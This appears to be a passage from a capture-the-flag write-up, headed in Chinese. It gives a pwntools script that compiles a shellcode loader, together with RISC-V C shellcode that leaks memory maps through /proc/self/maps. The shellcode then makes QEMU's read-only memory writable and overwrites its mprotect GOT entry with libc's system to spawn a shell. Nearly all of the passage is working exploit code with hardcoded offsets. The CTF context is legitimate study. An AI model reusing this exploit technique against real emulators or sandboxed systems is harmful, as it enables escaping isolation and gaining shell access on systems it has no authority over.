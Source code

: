 > c代码源码本地单独测试版shellcode：切到ubuntu18.04，可以使用题目的libc，基本同上，io需要修改一些细节

```python
from pwn import *
#context(log_level="debug")

testcode='''
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>

int main(void)
{
    char payload[1000];
    int f = open("sc.bin",0);
    int len = read(f,payload,1000);
    printf("Length: %d\\n", len);
    (*(void(*)()) payload) ();
    return 0;
}
'''
f = open("test.c","w");f.write(testcode);f.close()
os.system("riscv64-linux-gnu-gcc test.c --static -o test")

shellcode = '''
void * syscall();
__attribute__((section(".text"))) char maps[] = "/./proc/self/maps";

int main() {
    long long * libc_base,* qemu_base;
    char buf[0x1000];
    void * f = 
    syscall(56,0,maps,0);          // openat  =  56
    syscall(63,f,buf,0x1000);      // read    =  63
    syscall(64,1,buf,0x1000);      // write   =  64
    syscall(63,f,buf,0x1000);      // read    =  63
    syscall(64,1,buf,0x1000);      // write   =  64
    syscall(63,f,buf,0x1000);      // read    =  63
    syscall(64,1,buf,0x1000);      // write   =  64

    syscall(63,0,&qemu_base,8);
    syscall(63,0,&libc_base,8);

    long long * libc_system   =   libc_base + 0x04f550/8;
    long long * mprotect_got  =   qemu_base + 0x6a3200/8;
    long long * ro_memory     =   qemu_base + 0x668000/8;

    syscall(226,ro_memory,0x3c000,6);
    * mprotect_got = (long long)  libc_system;
    * ro_memory    = (long long)  0x6873;

    syscall(226,ro_memory,0x3c000,6);
}

asm(
    "syscall:\\n"
    "mv a7, a0\\n"
    "mv a0, a1\\n"
    "mv a1, a2\\n"
    "mv a2, a3\\n"
    "ecall\\n"
    "ret\\n"
);
'''
```
